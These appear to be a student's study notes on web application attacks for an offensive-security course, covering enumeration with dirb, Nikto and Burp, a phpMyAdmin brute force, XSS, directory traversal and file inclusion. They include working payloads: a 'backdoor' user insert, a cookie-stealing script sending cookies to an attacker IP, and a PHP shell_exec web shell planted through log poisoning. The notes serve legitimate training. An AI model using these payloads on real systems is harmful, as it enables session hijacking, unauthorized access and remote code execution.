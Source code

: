 8 Web Application Attacks

# Web Application Enumeration

Identify the technology stack:
- Programming language and frameworks
- Web server software
- Database software
- Server operating system

Inspect page content with the Firefox Debugger tool (Ctrl-Shift K).
Find versions of jquery etc.
Use network tab to look at headers and find server details.
Check robots.txt and sitemap.xml.
Check for default administration consoles such as /manager/html for Tomcat or /phpmyadmin for MySQL.

## DIRB
Perform a non-recursive search with a 10 millisecond delay to each request:
`dirb http://www.megacorpone.com -r -z 10`

## Burp

* Disable proxy interception on startup under User Options > Misc > Proxy Interception.
* Add FoxyProxy Basic (or Standard) to Firefox.
* Get a new unique Burp CA for HTTPS:
  * Proxy > Options > Proxy Listeners > Regenerate CA Certificate.
  * http://burp.
  * Save cacert.der.
  * Firefox > Settings > Privacy & Security > View Certificates > Import.
  * Enjoy HTTPS goodness without errors.

## Nikto

Nikto is a highly configurable Open Source web server scanner that tests for thousands of dangerous files and programs, vulnerable server versions and various server configuration issues.

The -maxtime option will halt the scan after the specified time limit. This does not optimize the scan in any way. Nikto will simply stop scanning. Tune the scan with the -T option. We can use this feature to control which types of tests we want to run. There are times when we do not want to run all the tests built in to Nikto, such as verifying if a certain class of vulnerabilities is present. Nikto can be slow on large websites and is not stealthy as it sends so many requests, as well as identifying itself in the User-Agent header.

`nikto -host=http://www.megacorpone.com -maxtime=30s`

## Web Admin Exploitation Example

https://en.wikipedia.org/wiki/Cross-site_request_forgery#Synchronizer_token_pattern

Example of Burp and phpMyAdmin. Even though you can't use Burp in the exam...

1. Submit a login request for for intruder to analyse.
2. Right click on the POST request in Burp and send to intruder.
3. On the positions tab clear all set positions and add the cookie, set_session, token and password.
4. Select pitchfork attack type so we can use different values for each position. https://portswigger.net/burp/documentation/desktop/tools/intruder/attack-types
  * The attack iterates through all payload sets simultaneously, and places one payload into each defined position. In other words, the first request will place the first payload from payload set 1 into position 1 and the first payload from payload set 2 into position 2; the second request will place the second payload from payload set 1 into position 1 and the second payload from payload set 2 into position 2, etc. 
5. Under options navigate to Grep -Extract which will save results of a request and make them available for the next one. Highlight the area of the token or set_session and it will extract the field.
6. Navigate to payloads. Add the recursive greps and the password.
7. Start attack.
8. Identify the 302 different response. Login with same password.
9. Run SQL query:
   * `select * from webappdb.users;`
   * `insert into webappdb.users(password, username) VALUES ("backdoor","backdoor");`

# Cross-Site Scripting (XSS)

Look for entry points (search fields, comment fields, logins etc) and enter special characters to see if they are encoded, for example `< > ' " { } ;`. If they are not encoded or removed, the site may be vulnerable to XSS to introduce code.

If the entered text is printed back to the page, check with inspector if it is encoded in any way.

Content can be injected for client-side attacks and redirect the browser. A stealth method is using an iframe to introduce the payload. Note the 0 heigh and width:
`<iframe src=http://192.168.0.163/report height=”0” width=”0”></iframe>`. Submit and on target:  
`sudo nc -nvlp 80`

Note we can see the User-Agent header and other information on the victim's browser to help conduct further attacks. XSS can be used to steal cookies and session information from applications with insecure session management. Two important flags are:
* Secure - the browser only sends the cookie over encrypted connections such as HTTPS, preventing capture of the cookie.
* HttpOnly 0 denies JavaScript access to the cookie. If set, we cannot use an XSS payload to steal the cookie.
* Other issues include browsers prevent cookies set by one domain from being sent to another. This can be relaxed for subdomains in the set-cookie directive via the domain and path flags. A workaround if JavaScript can bhe used is to use the value as part of a link and send the link, which could be used to deconstruct the cookie.

Cookie stealing XSS payload:  
`<script>new Image().src="http://192.168.119.231/cool.jpg?output="+document.cookie;</script>`  
`sudo nc -nvlp 80`

When someone visits the page we can obtain their cookie. Use Cookie-Editor by Moutsachauve on FF to impersonate. Practice with Kali Beef.

# Directory Traversal Vulnerabilities

Look in the URL query strings and bodies for evidence the values appear as file references. For example: `/menu,php?file=current_menu.php`.  
Try swapping out the file for something else: `menu.php?file=c:\windows\system32\drivers\etc\hosts`.  
An important distrinction is whether files can be read both in and outside the web root directory.

# File Inclusion Vulnerabilities

Similar to the directory traversal, we are looking for parameters that can be manipulated. In file inclusion vulnerabilities, we are looking to execute the contents of the file in the application. This can also include trying a remote URL as well as local files. 

The server needs to include or execute the file we are trying to include, not just display it's contents. One way to inject code onto the server is through log file poisoning. If application servers are logging all URLs requested, we can submit a request including PHP code. Once it is logged, we can use the log file in the LFI payload.

Connect to the target server: `nc -nv <ip> 80`. Once connected send:
`<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>`  
This will cause the PHP application to execute:
`<?php echo shell_exec($_GET[‘cmd’]);?> `

With this payload now in the log file, we can attempt local file inclusion (LFI) execution:  
`http://192.168.231.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig`



















